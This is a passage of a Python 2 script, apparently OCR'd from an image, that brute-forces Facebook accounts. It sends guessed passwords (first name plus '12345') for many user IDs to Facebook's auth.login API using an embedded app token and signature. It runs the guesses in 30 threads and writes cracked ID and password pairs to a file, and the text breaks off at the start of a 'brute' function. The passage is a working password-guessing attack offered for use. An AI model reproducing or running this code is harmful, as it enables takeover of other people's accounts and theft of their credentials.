                                 oks.append(user + pass5)
                            elif 'www.facebook.com' in q['error_msg']:
                                print '\x1b[33;1m[Cp\xf0\x9f\x90\xaf+] \x1b[0;1mID \x1b[1;91m      : \x1b[0;1m' + user
                                print '\x1b[33;1m[\xe2\x88\x9a] \x1b[0;1mPassword \x1b[1;91m: \x1b[0;1m' + pass5 + '\n'
                                cek = open('out/super_cp.txt', 'a')
                                cek.write('ID:' + user + ' Pw:' + pass5 + '\n')
                                cek.close()
                                cekpoint.append(user + pass5)
                            else:
                                pass6 = b['first_name'] + '12345'
                                data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass6 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                                q = json.load(data)
                                if 'access_token' in q:
                                    print '\x1b[32;1m[OK\xe2\x9c\x93] \x1b[0;1mID \x1b[1;91m      : \x1b[0;1m' + user
                                    print '\x1b[32;1m[!] \x1b[0;1mPassword \x1b[1;91m: \x1b[0;1m' + pass6 + '\n'
                                    oks.append(user + pass6)
                                elif 'www.facebook.com' in q['error_msg']:
                                    print '\x1b[33;1m[Cp\xf0\x9f\x90\xaf+] \x1b[0;1mID \x1b[1;91m      : \x1b[0;1m' + user
                                    print '\x1b[33;1m[\xe2\x88\x9a] \x1b[0;1mPassword \x1b[1;91m: \x1b[0;1m' + pass6 + '\n'
                                    cek = open('out/super_cp.txt', 'a')
                                    cek.write('ID:' + user + ' Pw:' + pass6 + '\n')
                                    cek.close()
                                    cekpoint.append(user + pass6)
        except:
            pass

    p = ThreadPool(30)
    p.map(main, id)
    print '\x1b[1;31;40m[\xe2\x9c\x93] Process Has Been Completed\x1b[1;96m....'
    print '\x1b[1;32;40m[+] Total OK/\x1b[1;93mCP \x1b[1;91m: \x1b[1;91m' + str(len(oks)) + '\x1b[1;31;40m/\x1b[1;36;40m' + str(len(cekpoint))
    print '\x1b[1;34;40m[+] CP File Has Been Saved : save/cp.txt'
    print '\n\x1b[1;31;40m \xe2\x98\x85\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x98\x85\n           '
    raw_input('\n\x1b[1;96m[\x1b[1;97mExit\x1b[1;96m]')
    super()


def brute():
    os.system('clear')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        print '\x1b[1;91m[!] Token not found'
        os.system('rm -rf login.txt')
        time.sleep(0.5)
        login()
    else:
        os.system('clear')
        print logo
        print '\x1b[1;31;40m \xe2\x98\x85\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x98\x85'
        try: